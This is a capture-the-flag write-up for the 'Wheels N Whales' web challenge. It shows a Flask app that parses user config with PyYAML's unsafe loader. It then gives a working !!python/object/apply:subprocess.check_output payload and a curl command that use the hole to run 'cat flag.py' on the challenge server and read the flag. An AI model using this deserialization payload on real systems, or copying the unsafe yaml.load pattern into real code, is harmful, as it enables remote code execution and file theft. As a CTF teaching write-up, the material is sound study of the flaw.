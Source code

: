# Wheels N Whales

## Task

I've heard that whales and wheels are the new hot thing. So a buddy of mine build a website where you can get your own. I think he hid an easter egg somewhere, but I can't get to it, can you help me?

File: web.py

## Solution

We are given a flask application, snippets:

```python
EASTER_WHALE = {"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}

class Whale:
    def __init__(self, name, image_num, weight):
        self.name = name
        self.image_num = image_num
        self.weight = weight

    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/whale", methods=["GET", "POST"])
def whale():
    if request.method == "POST":
        name = request.form["name"]
        if len(name) > 10:
            return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
        image_num = request.form["image_num"]
        weight = request.form["weight"]
        whale = Whale(name, image_num, weight)
        if whale.__dict__ == EASTER_WHALE:
            return make_response(flag.get_flag(), 200)
        return make_response(render_template("whale.html.jinja", w=whale, active="whale"), 200)
    return make_response(render_template("whale_builder.html.jinja", active="whale"), 200)


class Wheel:
    def __init__(self, name, image_num, diameter):
        self.name = name
        self.image_num = image_num
        self.diameter = diameter
    @staticmethod
    def from_configuration(config):
        return Wheel(**yaml.load(config, Loader=yaml.Loader))
    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/wheel", methods=["GET", "POST"])
def wheel():
    if request.method == "POST":
        if "config" in request.form:
            wheel = Wheel.from_configuration(request.form["config"])
            return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
        name = request.form["name"]
        image_num = request.form["image_num"]
        diameter = request.form["diameter"]
        wheel = Wheel(name, image_num, diameter)
        print(wheel.dump())
        return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
    return make_response(render_template("wheel_builder.html.jinja", active="wheel"), 200)
```


We need to execute the function `flag.get_flag`, but we can't provide the required name. So why is there a second route and class? If we look at the static method of `Wheel` it provides a `from_configuration` which is called if `/wheel` is post requested with a configuration that is directly parsed by the `yaml.Loader`. The loader in this case is the `UnsafeLoader` which is called that way for backwards compatibility: https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation

I recently participated in the AppSec-IL CTF and there was a similar challenge, here is a good writeup: https://jctf.team/AppSec-IL-2020/Resume.yml/

I tried a lot of things that are documented here to execute a function to save it's value in the name of the wheel. Here is the full list: https://pyyaml.org/wiki/PyYAMLDocumentation#yaml-tags-and-python-types

But then I realized I could just `cat` the source code and get it from there. So the payload is pretty much the one from the writeup linked before:

```yaml
diameter: 1
image_num: 1
name: !!python/object/apply:subprocess.check_output [["cat", "flag.py"]]
```

Now do a curl request with that as the parameter config:

```bash
$ curl http://chal.cybersecurityrumble.de:7780/wheel --data-urlencode 'config@payload.txt' -vvv
...
<h1>b'def get_flag():\n    return "CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}"\n\n\n\n'</h1>
...
```
